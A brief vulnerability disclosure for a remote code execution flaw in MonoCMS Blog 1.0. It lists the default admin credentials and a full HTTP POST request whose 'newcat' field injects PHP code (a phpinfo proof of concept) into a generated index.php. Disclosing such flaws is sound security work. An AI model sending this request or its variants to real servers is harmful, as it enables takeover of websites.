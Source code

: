 My env
MonoCMS Blog 1.0

php 5.6.9

Windows

 category rce 
At monofiles/category.php:27, user input was saved to category/[foldername]/index.php causing RCE.

 

First Step:

Login to your account(default:admin/1234) 

 

Send an request:


POST /monofiles/category.php HTTP/1.1
Host: 172.16.105.29
Content-Length: 68
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://172.16.105.29
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/81.0.4044.138 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://172.16.105.29/monofiles/category
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: MON=r1u4c0k2mv2c222linpoma712m
Connection: close

newcat=test%22%3Bphpinfo%28%29%3Bexit%28%29%3B%2F%2F&foldername=test

 

We can write any php code into index.php
https://github.com/fortest-1/vuln/blob/main/MonoCMS%20Blog/img/1.png?raw=true
https://github.com/fortest-1/vuln/blob/main/MonoCMS%20Blog/img/2.png?raw=true



 

 



 
